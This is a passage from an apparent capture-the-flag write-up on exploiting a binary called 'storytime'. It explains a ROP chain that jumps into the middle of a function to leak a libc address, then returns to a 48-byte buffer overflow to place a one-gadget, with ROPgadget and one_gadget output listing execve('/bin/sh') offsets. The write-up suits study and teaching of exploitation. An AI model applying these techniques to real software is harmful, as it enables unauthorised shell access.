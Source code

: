 ```
$    python ROPgadget.py --binary storytime | grep rsi
0x0000000000400701 : pop rsi ; pop r15 ; ret
```

For the last register (the `1` in `rdi`) I settled this with where we jumped back to. Instead of calling `write`, I just jumped to `0x400601` which is in the middle of the `end` function:
```

void end(void)

{
  write(1,"The End!\n",0x28);
  return;
}
```

Specifically the instruction we jump back to will mov `0x1` into the `edi` register then call `write`, which will give us our infoleak:
```
        00400606 e8 95 fe        CALL       write                                            ssize_t write(int __fd, void * _
                 ff ff
        0040060b 90              NOP
        0040060c 5d              POP        RBP
        0040060d c3              RET
```

Then it will return and continue on with our rop chain. However before it does that, it will pop a value off of our chain into the `rbp` register so we will need to include a filler 8 byte qword in our rop chain at that point. For where to jump to, I choose `0x40060e`, since it is the beginning of the `climax` function which gives us a buffer overflow where we can overwrite the return address with a onegadget and pop a shell.

```
void climax(void)

{
  undefined local_38 [48];
 
  read(0,local_38,4000);
  return;
}
```

Also to find the onegadget, we can just use the onegaget finder like this to find the offset from the base of libc. To choose which one to use, I normally just guess and check instead of checking the conditions at runtime (I find it a bit faster):

```
$    one_gadget libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
